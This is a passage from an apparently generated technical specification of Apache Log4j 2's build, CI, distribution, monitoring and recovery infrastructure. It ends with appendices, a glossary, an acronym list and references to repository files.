RUN apt-get update && apt-get install -y openjdk-9-jdk
# Maven integration
RUN wget https://archive.apache.org/dist/maven/maven-3/3.5.0/binaries/apache-maven-3.5.0-bin.tar.gz
```

**Container Usage Strategy**

| Purpose | Configuration | Justification |
|---------|---------------|---------------|
| **Build Isolation** | Multi-JDK container | Reproducible build environment |
| **Testing Matrix** | JDK 7 and 9 support | Legacy and modern Java compatibility |
| **CI Integration** | Maven 3.5.0 toolchain | Consistent build tool versions |

### 8.4.2 Container Build Pipeline

**Build Process Flow**

```mermaid
graph LR
    A[Source Code] --> B[Container Build]
    B --> C[JDK 7 Environment]
    B --> D[JDK 9 Environment]
    
    C --> E[Maven Build]
    D --> F[Maven Build]
    
    E --> G[Test Execution]
    F --> H[Test Execution]
    
    G --> I[Build Artifacts]
    H --> I
    
    I --> J[Container Registry]
```

**Container Resource Requirements**

| Resource | Minimum | Recommended | Purpose |
|----------|---------|-------------|---------|
| CPU | 2 cores | 4 cores | Parallel build execution |
| Memory | 4GB | 8GB | Multi-JDK compilation |
| Storage | 10GB | 20GB | Source code and dependencies |
| Network | 100Mbps | 1Gbps | Dependency download |

## 8.5 DISTRIBUTION INFRASTRUCTURE

### 8.5.1 Maven Central Distribution

**Repository Configuration**

```mermaid
graph TD
    A[Build Artifacts] --> B[Maven Central Staging]
    B --> C[Signature Verification]
    C --> D[Metadata Validation]
    D --> E[Release Promotion]
    E --> F[Maven Central]
    
    F --> G[Consumer Applications]
    
    A --> H[Snapshot Repository]
    H --> I[Development Builds]
```

**Distribution Artifact Types**

| Artifact Type | Format | Purpose | Distribution Method |
|---------------|---------|---------|-------------------|
| **JAR Files** | .jar | Runtime libraries | Maven Central |
| **Source JARs** | -sources.jar | Development support | Maven Central |
| **Javadoc JARs** | -javadoc.jar | Documentation | Maven Central |
| **Binary Distribution** | .tar.gz, .zip | Complete packages | Apache Downloads |
| **Source Distribution** | -src.tar.gz, -src.zip | Source packages | Apache Downloads |

### 8.5.2 Distribution Module Configuration

**Assembly Configuration**

The `log4j-distribution` module manages packaging through Maven Assembly Plugin:

- **Binary Assembly**: `src/assembly/bin.xml` - Complete binary distribution
- **Source Assembly**: `src/assembly/src.xml` - Source code distribution
- **Dependency Management**: Automatic inclusion of all module dependencies
- **License Compliance**: Automatic LICENSE.txt and NOTICE.txt inclusion

### 8.5.3 Release Management Process

**Release Workflow**

```mermaid
graph TB
    A[Release Preparation] --> B[Version Update]
    B --> C[Build Verification]
    C --> D[Staging Repository]
    D --> E[Signature Generation]
    E --> F[Community Voting]
    F --> G[Release Promotion]
    G --> H[Distribution Update]
    
    H --> I[Maven Central]
    H --> J[Apache Downloads]
    H --> K[Documentation Sites]
```

**Release Quality Gates**

| Gate | Validation | Tools |
|------|------------|-------|
| **Build Verification** | All modules compile successfully | Maven, Jenkins |
| **Test Validation** | Full test suite passes | Surefire, Failsafe |
| **Security Scan** | No high/critical vulnerabilities | OWASP, Dependabot |
| **License Compliance** | All licenses compatible | Apache RAT |
| **API Compatibility** | No breaking changes | Clirr, Revapi |

## 8.6 INFRASTRUCTURE MONITORING

### 8.6.1 Build Monitoring

**CI/CD Pipeline Monitoring**

```mermaid
graph TD
    A[Build Metrics] --> B[GitHub Actions]
    A --> C[Apache Jenkins]
    A --> D[Build Status]
    
    B --> E[Build Duration]
    B --> F[Test Results]
    B --> G[Artifact Size]
    
    C --> H[Cross-platform Results]
    C --> I[JDK Compatibility]
    C --> J[Performance Metrics]
    
    D --> K[Status Badges]
    D --> L[Notification Systems]
    D --> M[Dashboard Views]
```

**Performance Monitoring**

| Metric | Threshold | Monitoring Tool | Alert Action |
|--------|-----------|-----------------|--------------|
| **Build Duration** | < 30 minutes | GitHub Actions | Investigate performance regression |
| **Test Execution** | < 15 minutes | Surefire Reports | Optimize test suite |
| **Artifact Size** | < 2MB per JAR | Maven Assembly | Review dependency changes |
| **Memory Usage** | < 4GB peak | JVM metrics | Investigate memory leaks |

### 8.6.2 Distribution Monitoring

**Artifact Distribution Tracking**

- **Download Metrics**: Maven Central usage statistics
- **Version Adoption**: Tracking of version distribution across projects
- **Security Monitoring**: Vulnerability scanning of distributed artifacts
- **Performance Impact**: Monitoring of library performance impact on consumer applications

### 8.6.3 Security Monitoring

**Security Infrastructure**

```mermaid
graph TD
    A[Security Monitoring] --> B[Vulnerability Scanning]
    A --> C[Dependency Tracking]
    A --> D[License Compliance]
    
    B --> E[Dependabot Alerts]
    B --> F[OWASP Scanning]
    B --> G[Security Advisories]
    
    C --> H[Dependency Updates]
    C --> I[Version Tracking]
    C --> J[Risk Assessment]
    
    D --> K[License Validation]
    D --> L[Compatibility Check]
    D --> M[Legal Compliance]
```

**Security Response Process**

| Severity Level | Response Time | Actions |
|---------------|---------------|---------|
| **Critical** | < 24 hours | Immediate patch release |
| **High** | < 72 hours | Priority fix in next release |
| **Medium** | < 1 week | Scheduled fix |
| **Low** | Next major release | Planned improvement |

## 8.7 INFRASTRUCTURE COST ANALYSIS

### 8.7.1 Build Infrastructure Costs

**Resource Utilization**

| Resource Type | Usage Pattern | Cost Factor |
|---------------|---------------|-------------|
| **GitHub Actions** | Per-commit builds | Free for open source |
| **Apache Jenkins** | Continuous integration | Apache Foundation sponsored |
| **Maven Central** | Artifact distribution | Free for open source |
| **Container Registry** | Build environments | Minimal storage costs |

### 8.7.2 Operational Costs

**Cost Optimization Strategies**

- **Caching Strategy**: Maven repository caching reduces build times and bandwidth
- **Parallel Execution**: Multi-platform builds optimize resource utilization
- **Selective Building**: Module-specific builds reduce unnecessary compilation
- **Artifact Lifecycle**: Automated cleanup of old snapshots and temporary artifacts

## 8.8 DISASTER RECOVERY AND BUSINESS CONTINUITY

### 8.8.1 Build Infrastructure Resilience

**Redundancy Configuration**

```mermaid
graph TD
    A[Primary Build] --> B[GitHub Actions]
    A --> C[Apache Jenkins]
    
    B --> D[Multi-platform Matrix]
    C --> E[Multi-agent Pool]
    
    D --> F[Build Artifacts]
    E --> F
    
    F --> G[Multiple Repositories]
    G --> H[Maven Central]
    G --> I[Apache Snapshots]
    G --> J[Apache Downloads]
```

**Recovery Procedures**

| Failure Scenario | Recovery Time | Recovery Process |
|------------------|---------------|------------------|
| **GitHub Actions Failure** | < 2 hours | Trigger Apache Jenkins builds |
| **Jenkins Infrastructure** | < 4 hours | GitHub Actions fallback |
| **Maven Central Issues** | < 24 hours | Apache repository deployment |
| **Source Control Issues** | < 1 hour | Mirror repository activation |

### 8.8.2 Data Protection Strategy

**Backup Configuration**

- **Source Code**: Multiple Git repository mirrors
- **Build Artifacts**: Multi-repository distribution
- **Configuration**: Version-controlled infrastructure as code
- **Documentation**: Automated site generation and backup

## 8.9 REFERENCES

### 8.9.1 Configuration Files

- `.github/workflows/main.yml` - GitHub Actions CI pipeline configuration
- `.github/dependabot.yml` - Automated dependency update configuration
- `Dockerfile` - Container build environment specification
- `jenkins-toolchains.xml` - Jenkins CI toolchain configuration for Linux
- `jenkins-toolchains-ubuntu.xml` - Jenkins CI toolchain configuration for Ubuntu agents
- `jenkins-toolchains-win.xml` - Jenkins CI toolchain configuration for Windows agents
- `toolchains-docker.xml` - Docker container Maven toolchain configuration
- `pom.xml` - Root Maven project configuration and module management
- `log4j-distribution/pom.xml` - Distribution module assembly configuration

### 8.9.2 Infrastructure Directories

- `.github/` - GitHub automation and CI/CD configuration
- `.github/workflows/` - GitHub Actions workflow definitions
- `.mvn/` - Maven wrapper configuration and properties
- `log4j-distribution/` - Binary and source distribution packaging module
- `log4j-distribution/src/assembly/` - Distribution assembly descriptors

### 8.9.3 External Services

- **GitHub Actions**: https://github.com/features/actions - Primary CI/CD platform
- **Apache Jenkins**: https://ci-builds.apache.org/job/Logging/job/log4j/ - Secondary CI platform
- **Maven Central**: https://search.maven.org/ - Primary artifact distribution
- **Apache Downloads**: https://logging.apache.org/log4j/2.x/download.html - Official download site
- **Apache Security**: https://logging.apache.org/log4j/2.x/security.html - Security advisory information

# APPENDICES

##### 9. APPENDICES

## 9.1 ADDITIONAL TECHNICAL INFORMATION

### 9.1.1 Maven Wrapper Implementation Details

The Apache Log4j 2 project employs Maven Wrapper (Takari version 0.5.6) to ensure reproducible builds across development environments. The implementation includes:

**Configuration Files:**
- `.mvn/wrapper/maven-wrapper.properties` - Contains distribution URL and checksum validation
- `.mvn/wrapper/MavenWrapperDownloader.java` - Bootstrap utility for automatic Maven installation
- `mvnw` (Unix/Linux) and `mvnw.cmd` (Windows) - Platform-specific execution scripts

**Key Features:**
- Automatic Maven distribution download and verification
- Consistent build environment across development teams
- Eliminates "works on my machine" issues related to Maven version differences
- Supports offline builds once initial download is complete

### 9.1.2 API Compatibility Management

The project implements comprehensive API compatibility checking through RevAPI (org.revapi:revapi-maven-plugin) with module-specific configurations:

**Configuration Structure:**
- Individual `revapi.json` files per module define compatibility rules
- Specific API changes excluded from compatibility checks with JIRA issue justifications
- Automated regression detection for public API modifications
- Integration with Maven build lifecycle for continuous compatibility validation

**Compatibility Tracking:**
- References to JIRA issues (LOG4J2-XXXX format) provide change justification
- Categorization of breaking vs. non-breaking changes
- Automated reporting of API evolution across releases

### 9.1.3 Multi-Release JAR Support

Log4j 2 leverages Java 9+ features through multi-release JAR packaging:

**Implementation Strategy:**
- Separate modules for Java 9+ specific implementations (log4j-api-java9, log4j-core-java9)
- Maven configuration unpacks and overlays Java 9+ classes during build process
- Conditional compilation based on target JDK version
- Backward compatibility maintained for Java 8 runtime environments

**Build Process Integration:**
- Automatic detection of Java 9+ features availability
- Version-specific class compilation and packaging
- Runtime feature detection for optimal performance utilization

### 9.1.4 Network Protocol Implementation Details

The framework implements comprehensive network protocol support:

**Protocol Enumeration:**
- TCP, SSL, UDP protocols with case-insensitive string matching
- TLS Syslog framing according to RFC 5425 specifications
- SSL/TLS configuration factory with trust store and key store management
- Custom protocol extensions through SPI mechanism

**Testing Infrastructure:**
- Dumbster SMTP test server for email appender validation
- Mock network services for protocol testing
- Integration test suites for network reliability verification

### 9.1.5 Docker Integration Specifics

The project includes Docker-based integration testing:

**Container Configuration:**
- Elasticsearch and Logstash containers for log processing pipeline testing
- Custom Docker profiles defined in Maven POMs
- Network configuration for inter-container communication
- Volume mapping for persistent storage during tests

**Integration Testing:**
- Automated container lifecycle management
- Service discovery and connection testing
- Performance benchmarking under containerized environments

### 9.1.6 JSON Template Layout Architecture

The JSON Template Layout implements a sophisticated template processing system:

**Core Components:**
- Template resolver framework with pluggable field resolvers
- Event resolver graphs for efficient LogEvent attribute extraction
- Recycler factory supporting ThreadLocal, dummy, or JCTools modes
- Garbage-free JSON writing with pre-computed escape tables

**Performance Optimizations:**
- Object pooling for reduced garbage collection pressure
- Byte-level JSON generation for optimal throughput
- Conditional field resolution for minimal processing overhead

## 9.2 GLOSSARY

| Term | Definition |
|------|------------|
| **Appender** | Component responsible for delivering log events to their destination (file, console, network, database, etc.) |
| **Context Data** | Thread-local or application-wide data that can be included in log events (formerly MDC/NDC) |
| **Disruptor** | High-performance inter-thread messaging library used for asynchronous logging |
| **Filter** | Component that determines whether a log event should be processed or discarded |
| **Garbage-free** | Logging mode that minimizes object allocation to reduce garbage collection pressure |
| **Layout** | Component that formats log events into their final representation (text, JSON, XML, etc.) |
| **Logger Context** | Container for all logging configuration within a specific context (application, bundle, etc.) |
| **Lookup** | Variable substitution mechanism for configuration and log messages |
| **Marker** | Named reference that can be attached to log events for filtering and routing |
| **Pattern** | Format string defining how log events are rendered in PatternLayout |
| **Plugin** | Extensible component discovered through annotations and loaded dynamically |
| **Ring Buffer** | Lock-free data structure used by Disruptor for high-throughput event processing |
| **Rollover** | Process of rotating log files based on size, time, or custom policies |
| **Status Logger** | Internal logger for Log4j diagnostic and error messages |
| **Template Resolver** | Component that processes JSON templates to extract LogEvent data |
| **Toolchain** | Maven mechanism for selecting specific JDK versions during build |

## 9.3 ACRONYMS

| Acronym | Expanded Form |
|---------|--------------|
| **API** | Application Programming Interface |
| **ASF** | Apache Software Foundation |
| **BOM** | Bill of Materials |
| **CI/CD** | Continuous Integration/Continuous Deployment |
| **CSV** | Comma-Separated Values |
| **DTO** | Data Transfer Object |
| **DTD** | Document Type Definition |
| **EAR** | Enterprise Archive |
| **ECS** | Elastic Common Schema |
| **EJB** | Enterprise JavaBeans |
| **EOL** | End of Line |
| **FOP** | Formatting Objects Processor |
| **GA** | General Availability |
| **GELF** | Graylog Extended Log Format |
| **HTTP** | Hypertext Transfer Protocol |
| **HTTPS** | HTTP Secure |
| **J2EE** | Java 2 Platform, Enterprise Edition |
| **JAR** | Java Archive |
| **JAXB** | Java Architecture for XML Binding |
| **JAXP** | Java API for XML Processing |
| **JCL** | Jakarta Commons Logging |
| **JDBC** | Java Database Connectivity |
| **JDK** | Java Development Kit |
| **JMH** | Java Microbenchmark Harness |
| **JMS** | Java Message Service |
| **JMX** | Java Management Extensions |
| **JNDI** | Java Naming and Directory Interface |
| **JPA** | Java Persistence API |
| **JQL** | JIRA Query Language |
| **JRE** | Java Runtime Environment |
| **JSON** | JavaScript Object Notation |
| **JSP** | JavaServer Pages |
| **JUL** | Java Util Logging |
| **JVM** | Java Virtual Machine |
| **KPI** | Key Performance Indicator |
| **LMAX** | LMAX Exchange (Disruptor library origin) |
| **MDC** | Mapped Diagnostic Context |
| **NDC** | Nested Diagnostic Context |
| **NPE** | Null Pointer Exception |
| **OSGi** | Open Service Gateway Initiative |
| **PDF** | Portable Document Format |
| **PMD** | Programming Mistake Detector |
| **POM** | Project Object Model |
| **PR** | Pull Request |
| **RAT** | Release Audit Tool |
| **RFC** | Request for Comments |
| **RMI** | Remote Method Invocation |
| **SBT** | Scala Build Tool |
| **SFTP** | SSH File Transfer Protocol |
| **SLA** | Service Level Agreement |
| **SLF4J** | Simple Logging Facade for Java |
| **SMTP** | Simple Mail Transfer Protocol |
| **SPDX** | Software Package Data Exchange |
| **SPI** | Service Provider Interface |
| **SSL** | Secure Sockets Layer |
| **TCP** | Transmission Control Protocol |
| **TLD** | Tag Library Descriptor |
| **TLS** | Transport Layer Security |
| **UDP** | User Datagram Protocol |
| **URI** | Uniform Resource Identifier |
| **URL** | Uniform Resource Locator |
| **UTC** | Coordinated Universal Time |
| **UUID** | Universally Unique Identifier |
| **VM** | Virtual Machine |
| **WAR** | Web Application Archive |
| **XJR** | Cross-Reference Report |
| **XML** | Extensible Markup Language |
| **XSD** | XML Schema Definition |
| **XSL** | Extensible Stylesheet Language |
| **XSLT** | XSL Transformations |
| **XZ** | XZ compression format |
| **YAML** | YAML Ain't Markup Language |

## 9.4 REFERENCES

### 9.4.1 Repository Files and Directories Examined

**Configuration Files:**
- `src/changes/changes.xml` - Release history and technical changes documentation
- `.github/dependabot.yml` - Dependency management automation configuration
- `.github/workflows/maven-toolchains.xml` - JDK toolchain configuration for CI environments
- `.mvn/wrapper/maven-wrapper.properties` - Maven wrapper distribution configuration

**Source Directories:**
- `src/` - Documentation sources and templates
- `src/site/` - Site generation configuration and content
- `src/site/xdoc/` - XML documentation sources
- `src/site/xdoc/manual/` - Detailed manual documentation
- `src/changes/` - Release notes and changelog

**Module Directories:**
- `log4j-core/` - Core implementation module
- `log4j-api/` - Public API module
- `log4j-layout-template-json/` - JSON template layout implementation
- `.mvn/` - Maven wrapper configuration
- `.mvn/wrapper/` - Maven wrapper implementation
- `.github/` - GitHub automation configuration
- `.github/workflows/` - CI/CD pipeline definitions

### 9.4.2 Technical Specification Sections Referenced

- Section 1.2 - System Overview
- Section 3.2 - Frameworks & Libraries
- Section 4.3 - Technical Implementation
- Section 8.2 - Build Infrastructure
- Section 8.3 - Continuous Integration Pipeline